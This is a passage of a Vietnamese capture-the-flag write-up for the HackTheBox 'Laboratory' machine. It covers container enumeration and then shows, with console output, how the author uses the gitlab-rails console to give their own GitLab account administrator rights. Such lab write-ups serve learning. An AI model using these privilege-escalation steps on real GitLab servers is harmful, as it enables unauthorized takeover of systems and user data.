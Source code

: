 ## Enumeration
Việc liệt kê ban đầu xác nhận rằng chúng ta đang ở trong một vùng chứa docker

```powershell
git@git:/$ hostname -i
172.17.0.2
git@git:/$ hostname
git.laboratory.htb
```

Ngoài ra, có `.dockerenv` để xác nhận điều tương tự

```powershell
git@git:/$ ls -la
total 88
drwxr-xr-x   1 root root 4096 Jul  2  2020 .
drwxr-xr-x   1 root root 4096 Jul  2  2020 ..
-rwxr-xr-x   1 root root    0 Jul  2  2020 .dockerenv
-rw-r--r--   1 root root  157 Feb 24  2020 RELEASE
drwxr-xr-x   2 root root 4096 Feb 24  2020 assets
drwxr-xr-x   1 root root 4096 Feb 24  2020 bin
drwxr-xr-x   2 root root 4096 Apr 12  2016 boot
drwxr-xr-x   5 root root  340 Apr 21 05:04 dev
drwxr-xr-x   1 root root 4096 Jul  2  2020 etc
[..SNIP..]
```
Bây giờ, cách tiếp cận tiếp theo của chúng tôi là thoát khỏi vùng chứa này hoặc nâng cao các đặc quyền để root trong vùng chứa này, tuy nhiên không có điều nào trong số đó là khả thi ở đây

## GitLab - Quyền truy cập Dự án SecureDocker
Vì chúng ta đang ở bên trong vùng chứa GitLab, chúng ta có thể sử dụng bảng điều khiển Gitlab-rails để thao tác dữ liệu người dùng GitLab: Đây là một số Cheatsheet mà tôi đã tham khảo ban đầu: [Cheatsheet1](https://docs.gitlab.com/ee/administration/troubleshooting/gitlab_rails_cheat_sheet.html) & [Cheatsheet](https://docs.gitlab.com/ee/security/reset_user_password.html)

## Admin Priv - Self
Thứ nhất, Tác giả có thể tự cấp cho mình đặc quyền quản trị viên

```powershell
git@git:~$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> User.active
User.active
=> #<ActiveRecord::Relation [#<User id:4 @seven>, #<User id:1 @dexter>, #<User id:5 @tuser>, #<User id:6 @cfx>]>
irb(main):002:0> User.admins
User.admins
=> #<ActiveRecord::Relation [#<User id:1 @dexter>]>
irb(main):003:0> cfx.admin = true
cfx.admin = true
irb(main):004:0> cfx.save
cfx.save
=> true
```
